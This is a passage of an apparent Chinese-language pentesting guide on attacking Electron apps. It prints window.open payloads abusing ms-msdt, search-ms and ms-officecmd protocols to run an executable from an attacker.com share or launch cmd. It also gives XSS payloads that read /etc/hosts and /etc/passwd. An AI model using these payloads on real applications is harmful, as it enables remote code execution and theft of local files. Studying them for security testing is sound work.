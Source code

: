根据Electron JS的安全最佳实践，`openExternal`函数**不应接受不受信任的内容**，**因为这可能导致滥用不同的协议进行RCE**，如果应用程序不限制用户通过https://或http://等协议进行导航。

不同的操作系统支持不同的协议，可能触发RCE，请查看更多信息：[https://positive.security/blog/url-open-rce](https://positive.security/blog/url-open-rce#windows-10-19042)，但这里有一些Windows的示例：
```html
<script>
window.open("ms-msdt:id%20PCWDiagnostic%20%2Fmoreoptions%20false%20%2Fskip%20true%20%2Fparam%20IT_BrowseForFile%3D%22%5Cattacker.comsmb_sharemalicious_executable.exe%22%20%2Fparam%20IT_SelectProgram%3D%22NotListed%22%20%2Fparam%20IT_AutoTroubleshoot%3D%22ts_AUTO%22")
</script>


<script>
window.open("search-ms:query=malicious_executable.exe&crumb=location:%5C%[5Cattacker.com](<http://5cattacker.com/>)%5Csmb_share%5Ctools&displayname=Important%20update")
</script>


<script>
window.open("ms-officecmd:%7B%22id%22:3,%22LocalProviders.LaunchOfficeAppForResult%22:%7B%22details%22:%7B%22appId%22:5,%22name%22:%22Teams%22,%22discovered%22:%7B%22command%22:%22teams.exe%22,%22uri%22:%22msteams%22%7D%7D,%22filename%22:%22a:/b/%2520--disable-gpu-sandbox%2520--gpu-launcher=%22C:%5CWindows%5CSystem32%5Ccmd%2520/c%2520ping%252016843009%2520&&%2520%22%22%7D%7D")
</script>
```
有关这些示例的更多信息，请查看[https://shabarkin.medium.com/1-click-rce-in-electron-applications-79b52e1fe8b8](https://shabarkin.medium.com/1-click-rce-in-electron-applications-79b52e1fe8b8)和[https://benjamin-altpeter.de/shell-openexternal-dangers/](https://benjamin-altpeter.de/shell-openexternal-dangers/)

## 读取内部文件：XSS + contextIsolation

如果`contextIsolation`设置为false，您可以尝试使用\<webview>（类似于\<iframe>，但可以加载本地文件）来读取本地文件并将其外泄：使用类似于**\<webview src=”file:///etc/passwd”>\</webview>**的方法：

![](../../../.gitbook/assets/1-u1jdryuwaevwjmf\_f2ttjg.png)

从这个[**writeup**](https://bugcrowd.com/disclosures/f7ce8504-0152-483b-bbf3-fb9b759f9f89/critical-local-file-read-in-electron-desktop-app)中读取内部文件的另一种方法：
```html
<br><BR><BR><BR>
<h1>pwn<br>
<iframe onload=j() src="/etc/hosts">xssxsxxsxs</iframe>
<script type="text/javascript">
function j(){alert('pwned contents of /etc/hosts :\n\n '+frames[0].document.body.innerText)}
</script>
```
## **RCE: XSS + 旧版 Chromium**

如果应用程序使用的 **Chromium** 是 **旧版**，并且存在已知的漏洞，可能可以通过 XSS 利用它并获取 RCE。\
您可以在此 **writeup** 中看到一个示例：[https://blog.electrovolt.io/posts/discord-rce/](https://blog.electrovolt.io/posts/discord-rce/)
